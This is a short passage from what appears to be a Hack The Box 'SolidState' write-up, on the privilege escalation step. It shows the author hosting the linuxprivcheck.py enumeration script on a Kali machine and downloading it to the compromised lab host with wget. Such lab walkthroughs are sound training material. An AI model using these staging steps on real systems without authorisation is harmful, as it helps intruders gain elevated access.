![htb-solidstate-10](/images/htb/solidstate/htb-solidstate-10.png)

# <a name="privesc"></a>Privilege escalation

I downloaded [linuxprivcheck.py](https://netsec.ws/?p=309) to the host by setting up a HTTP server on my kali box and downloading it to the remote machine.

**On Kali**
```bash
root@kali:~/htb/solidstate# python -m SimpleHTTPServer 80
```

**On host**
```bash
$ wget 10.10.14.12/linuxprivcheck.py
```

As the source website will tell you, the `LinuxPrivChecker` script is a great starting point for escalation and is a fantastic tool to keep in your toolbox. It checks a lot of common misconfigurations (such as file/directory permissions) that may lead to privilege escalation. The best thing of all is that right at the end, it'll give you a nice curated list of exploits for you to try.
